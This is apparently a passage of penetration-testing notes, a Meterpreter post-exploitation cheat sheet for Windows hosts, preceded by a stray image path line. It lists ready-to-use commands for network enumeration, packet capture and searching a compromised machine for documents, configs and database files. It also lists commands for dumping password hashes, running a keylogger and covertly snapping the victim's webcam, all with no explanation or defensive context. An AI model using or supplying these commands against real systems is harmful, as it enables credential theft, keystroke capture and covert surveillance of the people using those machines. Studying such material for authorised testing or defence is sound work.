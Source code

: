 ### Dualhomed
```bash
ipconfig /all
route print

# What other machines have been connected
arp -a

```

### Tcpdump
```bash
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files
```bash
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql
hashdump
keysscan_start
keyscan_dump
keyscan_stop
webcam_snap

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s

```
